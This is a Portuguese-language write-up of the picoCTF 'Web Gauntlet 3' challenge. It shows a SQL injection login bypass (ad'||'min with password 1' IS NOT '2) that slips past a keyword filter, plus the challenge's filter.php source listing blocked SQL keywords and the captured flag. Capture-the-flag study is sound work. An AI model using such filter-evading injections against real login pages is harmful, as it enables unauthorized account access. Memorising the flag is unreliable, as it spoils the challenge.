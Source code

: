 # Gauntlet 3
###### Resolvido por @Menegaldo e @BrunoCuba
> Este é um CTF sobre [Tipo de Vulnerabilidade 1, Tipo de Vulnerabilidade 2 e Tipo de Vulnerabilidade 3]  

## Sobre o Desafio  
Last time, I promise!  

**Objetivo:** Log in as admin Site:  

## 🔗 Links do Desafio  
- [Acesse o site](http://mercury.picoctf.net:8650/)  
- [Página de filtragem](http://mercury.picoctf.net:8650/filter.php)    

## Solução  

Acessei o site com essa tela de login:
![image](https://github.com/user-attachments/assets/894f1710-9ef2-4e1e-8d6c-f9b3cf4e3321)

E vi que na url ```http://mercury.picoctf.net:32946/filter.php``` continha os mesmos filtros do Web Gauntlet 2
![image](https://github.com/user-attachments/assets/9f7279dd-09da-4e81-a6aa-38d7ee89096b)

Com isso minha primeira tentativa foi usar o Login que usei no Web Gauntlet 2, LOGIN:```ad'||'min``` SENHA:```1' IS NOT '2```
![image](https://github.com/user-attachments/assets/86f0695b-065b-435b-84b3-4c05235fc10d)
![image](https://github.com/user-attachments/assets/8eae02cb-ddd8-4f51-9d7d-aec65f7337e7)

Com isso o site mandou eu visitar o link ```http://mercury.picoctf.net:32946/filter.php``` novamente e me apresentou o código a seguir:


```
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
?>
```

> Assim, obtemos a flag `picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}`  
